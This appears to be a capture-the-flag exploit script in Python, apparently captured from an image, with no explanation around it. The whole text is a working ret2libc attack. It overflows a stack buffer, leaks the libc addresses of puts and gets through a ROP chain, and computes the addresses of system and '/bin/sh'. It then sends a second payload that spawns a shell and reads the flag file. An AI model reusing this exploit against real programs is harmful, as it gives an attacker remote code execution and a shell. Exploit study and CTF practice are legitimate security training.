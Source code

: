 ```python
# Craft payload

puts_plt = 0x401030

puts_got = 0x404018
gets_got = 0x404020 

rop = 0x40120b

main = 0x401142

payload = b'A'*(size+8)
payload += struct.pack('Q',rop)
payload += struct.pack('Q',puts_got)
payload += struct.pack('Q',puts_plt)
payload += struct.pack('Q',rop)
payload += struct.pack('Q',gets_got)
payload += struct.pack('Q',puts_plt)
payload += struct.pack('Q',main)

conn.send(payload+b'\n')
conn.recvuntil(b'Thanks!\n')

puts_libc = conn.recv(0x6)+b'\x00\x00'
puts_libc = struct.unpack('Q',puts_libc)[0]
log.info('puts_libc @ '+hex(puts_libc))
conn.recvuntil('\n')

gets_libc = conn.recv(0x6)+b'\x00\x00'
gets_libc = struct.unpack('Q',gets_libc)[0]
log.info('gets_libc @ '+hex(gets_libc))
log.info('libc : libc6_2.28-10_amd64')

puts_offset = 0x071910
libc_base = puts_libc - puts_offset
log.info('libc base : '+hex(libc_base))

system_offset = 0x0449c0
system = libc_base + system_offset
log.info('system : '+hex(system))

binsh_offset = 0x181519
binsh = libc_base + binsh_offset
log.info('/bin/sh : '+hex(binsh))

payload = b'A'*(size+8)
payload += struct.pack('Q',rop)
payload += struct.pack('Q',binsh)
payload += struct.pack('Q',system)

conn.send(payload+b'\n')
conn.recvuntil(b'Thanks!\n')

conn.send(b'cat flag.txt\n')
flag = conn.recvall().decode()
log.success('flag : '+flag)
```

